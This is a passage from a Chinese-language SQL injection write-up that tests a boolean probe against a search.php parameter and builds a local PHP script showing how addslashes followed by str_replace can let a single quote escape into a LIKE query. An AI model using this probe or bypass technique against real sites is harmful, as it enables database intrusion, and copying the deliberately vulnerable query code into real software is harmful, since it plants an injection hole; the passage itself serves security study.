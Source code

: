 ```
search.php?word=*&tongpeifu=*&sqltongpei=n%' and 1=1 and '%'=' 
```

发现并无返回数据，多次测试仍无果。

猜测是单引号被转义了，查看了 php 版本为 5.5 默认无 gpc，则考虑到可能是对获取的数据进行了 addslashes 处理，现在要做的就是如何绕过 addslashes，使单引号逃逸出来。 本地测试。

其实 word tongpeifu sqltongpei 的处理逻辑，在 php 中实现就是一个 str_replace 函数。

构造本地测试的代码为 先查看 addslashes 的处理单引号、双引号、反斜线、空字符 测试代码

```
<?php
//addslashes 处理的内容有'、\、"、NULL 四个字符
if (isset($_GET['singleq'])) {
    echo "' -----> ".addslashes($_GET['singleq'])."<br/>";
}
if (isset($_GET['doubleq'])) {
    echo "\" -----> ".addslashes($_GET['doubleq'])."<br/>";
}
if (isset($_GET['backslash'])) {
    echo "\\ -----> ".addslashes($_GET['backslash'])."<br/>";
}
if (isset($_GET['null'])) {
    echo "%00 -----> ".addslashes($_GET['null'])."<br/>";
}
//sql test
$word=addslashes($_GET['word']);
$tongpeifu=addslashes($_GET['tongpeifu']);
$sqltongpei=addslashes($_GET['sqltongpei']);
echo $word."<br/>";
echo $tongpeifu."<br/>";
echo $sqltongpei."<br/>";
$result=str_replace($tongpeifu, $sqltongpei, $word);
echo "sql--query:"."select title from articles where title like '%{$result}%'"."<br/>"; 
```

输出为

![enter image description here](img/img35_png.jpg)
